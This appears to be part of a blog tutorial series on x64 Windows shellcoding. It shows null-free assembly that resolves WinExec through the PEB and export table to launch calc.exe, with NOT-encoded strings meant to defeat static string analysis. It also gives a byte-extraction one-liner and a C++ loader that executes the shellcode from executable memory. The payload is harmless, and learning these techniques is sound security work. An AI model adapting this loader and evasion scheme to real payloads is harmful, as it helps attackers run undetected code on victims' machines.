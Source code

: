 ```yaml
---
title:  "x64 Assembly & Shellcoding 101 - Part 4"
header:
  teaser: "/assets/images/asm-part4.png"
categories:
  - Shellcoding
  - Assembly
  - Debugging
tags:
  - Shellcoding
  - x64
  - x64dbg
  - '2024'
  - nasm
  - assembly
  - debugging
---
```


Hey all!  This will be a shorter post today, so I'll get right to it.  Let's talk shellcode basic encoding functionality built in to x64 assembly instructions.  What we're really talking about here is bitwise operations.  I'm going to use the `NOT` bitwise command to 'encode' all strings within our assembly code. This way, it's harder for static analysis efforts to succeed when searching for strings 😸 I took the liberty of trimming up the code we've been using to execute calc.exe using WinExec.  I'll likely go back and retroactively clean up some code in the previous posts in this series at some point too.  

Here's the portion of code with the `NOT` instruction added after the string.  I have already performed a NOT against the original unencoded string so these `NOT` instructions are to perform decoding operations.
```nasm
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax

mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
not rax
```
**and the full code below:**
```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -o x64findkernel32.exe x64findkernel32.obj
BITS 64
SECTION .text
global main
main:
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0
mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr
mov rsi,[rax+0x10]       ;PEB.Ldr->InLoadOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]      ;kernel32.dll base address
mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov rcx, r10                  ; Set loop counter
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax
shl rax, 0x8
shr rax, 0x8
push rax
mov rax, rsp	
add rsp, 0x8
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

**Here's a lame trick you can use if you want to decode / encode using `NOT` without having to use assembly.  Use the calculator!  Yes, we're going to use the calculator. I can't seem to get enough of it, it seems. 😸**

![image](https://github.com/user-attachments/assets/0c1103af-9a3d-44d6-99bb-32ec86422c1b)

**This gives us the original, unencoded string:**

![image](https://github.com/user-attachments/assets/8c6c934c-198e-4e88-805b-704b9e78ba96)

**This is nice because you can quickly decode and encode your strings to make sure everything is in working order before committing to your code.  As always, we want to strip this down to just shellcode, make sure it has no NULLs, and execute it!  We'll start with the basic objdump output to work off of:**

```nasm
winexec_nonulls.o:     file format pe-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:	48 83 ec 28          	sub    $0x28,%rsp
   4:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
   8:	48 31 c9             	xor    %rcx,%rcx
   b:	65 48 8b 41 60       	mov    %gs:0x60(%rcx),%rax
  10:	48 8b 40 18          	mov    0x18(%rax),%rax
  14:	48 8b 70 10          	mov    0x10(%rax),%rsi
  18:	48 8b 36             	mov    (%rsi),%rsi
  1b:	48 8b 36             	mov    (%rsi),%rsi
  1e:	48 8b 5e 30          	mov    0x30(%rsi),%rbx
  22:	49 89 d8             	mov    %rbx,%r8
  25:	8b 5b 3c             	mov    0x3c(%rbx),%ebx
  28:	4c 01 c3             	add    %r8,%rbx
  2b:	48 31 c9             	xor    %rcx,%rcx
  2e:	66 81 c1 ff 88       	add    $0x88ff,%cx
  33:	48 c1 e9 08          	shr    $0x8,%rcx
  37:	8b 14 0b             	mov    (%rbx,%rcx,1),%edx
  3a:	4c 01 c2             	add    %r8,%rdx
  3d:	44 8b 52 14          	mov    0x14(%rdx),%r10d
  41:	4d 31 db             	xor    %r11,%r11
  44:	44 8b 5a 20          	mov    0x20(%rdx),%r11d
  48:	4d 01 c3             	add    %r8,%r11
  4b:	4c 89 d1             	mov    %r10,%rcx
  4e:	48 b8 a8 96 91 ba 87 	movabs $0x6f9c9a87ba9196a8,%rax
  55:	9a 9c 6f 
  58:	48 f7 d0             	not    %rax
  5b:	48 c1 e0 08          	shl    $0x8,%rax
  5f:	48 c1 e8 08          	shr    $0x8,%rax
  63:	50                   	push   %rax
  64:	48 89 e0             	mov    %rsp,%rax
  67:	48 83 c4 08          	add    $0x8,%rsp

000000000000006b <kernel32findfunction>:
  6b:	67 e3 16             	jecxz  84 <FunctionNameNotFound>
  6e:	31 db                	xor    %ebx,%ebx
  70:	41 8b 1c 8b          	mov    (%r11,%rcx,4),%ebx
  74:	4c 01 c3             	add    %r8,%rbx
  77:	48 ff c9             	dec    %rcx
  7a:	4c 8b 08             	mov    (%rax),%r9
  7d:	4c 39 0b             	cmp    %r9,(%rbx)
  80:	74 03                	je     85 <FunctionNameFound>
  82:	75 e7                	jne    6b <kernel32findfunction>

0000000000000084 <FunctionNameNotFound>:
  84:	cc                   	int3

0000000000000085 <FunctionNameFound>:
  85:	ff c1                	inc    %ecx
  87:	4d 31 db             	xor    %r11,%r11
  8a:	44 8b 5a 1c          	mov    0x1c(%rdx),%r11d
  8e:	4d 01 c3             	add    %r8,%r11
  91:	45 8b 3c 8b          	mov    (%r11,%rcx,4),%r15d
  95:	4d 01 c7             	add    %r8,%r15
  98:	48 31 c0             	xor    %rax,%rax
  9b:	50                   	push   %rax
  9c:	48 b8 9c 9e 93 9c d1 	movabs $0x9a879ad19c939e9c,%rax
  a3:	9a 87 9a 
  a6:	48 f7 d0             	not    %rax
  a9:	50                   	push   %rax
  aa:	48 89 e1             	mov    %rsp,%rcx
  ad:	48 31 d2             	xor    %rdx,%rdx
  b0:	48 ff c2             	inc    %rdx
  b3:	48 83 ec 30          	sub    $0x30,%rsp
  b7:	41 ff d7             	call   *%r15
```

**Let's get only the shellcode:**

- nasm -fwin64 winexec_nonulls.asm -o winexec_nonulls.o

- for i in $(objdump -D winexec_nonulls.o \| grep "^ " \| cut -f2); do echo -n "\x$i" ; done

**Now, pop it into your c++ program and let er rip!**

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41"
"\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36"
"\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31"
"\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01"
"\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3"
"\x4c\x89\xd1\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xf7"
"\xd0\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83"
"\xc4\x08\x67\xe3\x16\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48"
"\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74\x03\x75\xe7\xcc\xff\xc1"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d"
"\x01\xc7\x48\x31\xc0\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87"
"\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\x31\xd2\x48\xff\xc2\x48"
"\x83\xec\x30\x41\xff\xd7";


int main() {

    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
**Forgot to mention, if you compile the exe and search for strings, you won't find winexec or calc, well...you'll see winexec_nonull since that's the filename, but not `WinExec` and `calc.exe`.  In a real world setting I'd change that. 😄  Check it out:**

![image](https://github.com/user-attachments/assets/8fcc5f09-2fd0-4905-9d31-e49b87f8b727)

And that's a wrap folks!  Maybe eventually I'll get around to moving beyond WinExec and onto other apis lol.  It'll happen...but until then take it easy!
